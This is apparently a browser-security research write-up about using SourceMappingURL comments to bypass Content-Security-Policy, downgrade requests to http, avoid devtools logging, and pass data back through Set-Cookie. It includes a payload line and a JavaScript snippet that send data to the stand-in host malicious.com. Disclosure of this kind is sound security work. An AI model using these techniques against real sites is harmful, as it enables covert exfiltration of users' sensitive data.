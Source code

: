 ### [The request made by SourceMappingURL bypasses CSP completely](https://us-central1-smap-251411.cloudfunctions.net/csp)

Wow! That one was a cool discovery in my research! So if I go on https://example.com for example and it responds with Content-Security-Policy: default-src https://example.com as one of its headers (which means requests under https://example.com are only allowed to be made to https://example.com), I would be able to bypass that rule completely by using the SourceMappingURL feature by doing:

`//# SourceMappingURL=http://malicious.com?THIS_REQUEST_WILL_MAKE_IT_TO_THE_SERVER`.

This is pretty cool considering how difficult and almost impossible it is to bypass CSP rules these days.

-   Later on I’ve found out that this specific property of SourceMappingURL feature was already discovered before me (for example [here](https://twitter.com/xsspayloads/status/792683058931625984?lang=en)) - don’t worry though, this gets more interesting!


### [The request made by SourceMappingURL can be made using `http:` even if the page is loaded via `https:`](https://us-central1-smap-251411.cloudfunctions.net/csp)

Another cool property of SourceMappingURL feature is the fact that it can send non-secure requests via `http:` even if the main page was loaded via a secure connection over `https:`, a narrative that cannot be accomplished otherwise in the browser, since SSL downgrade is forbidden and is considered to be a serious security flaw.

So by this point I found some really cool hacks that by combining them all together, one can leak sensitive information while bypassing website’s CSP rules without it being documented whatsoever in the devtools, thus making it super hard to tell this strange activity took place in the victim’s browser.

So far so good. And then I was wondering to myself, if SourceMappingURL fires a request, does it have any of the other standard properties that any common request has? We already know that the response cannot be processed by the client side Javascript - so how is it similar to other types of network APIs in the browser? And then I’ve found the property that changed the game completely:

### [The browser respects headers set on the response to the SourceMappingURL request (including `Set-Cookie`)](https://us-central1-smap-251411.cloudfunctions.net/headers)

And that is the most powerful property of this feature - even though we don’t get to process the response ourselves, the browser respects response headers for this request, including `Set-Cookie`! This means an attacker can have a full request-and-response mechanism, simply by having their server inject the response in the cookie header instead of the actual response!

```javascript
function  smap  (  ...  )  {  ...  }  // same as in the snippent above..
	const i =  setInterval(  ()  =>  {
	var response =  getCookieValueByCookieName('SMAP_RESPONSES');
	if  (!response)  return;
	deleteCookieByCookieName('SMAP_RESPONSES');
	clearInterval(i);
	alert('server says that 1 + 2 is '  + response);
},  100  );

smap('http://malicious.com/sum',  {a:  1, b:  2});
```
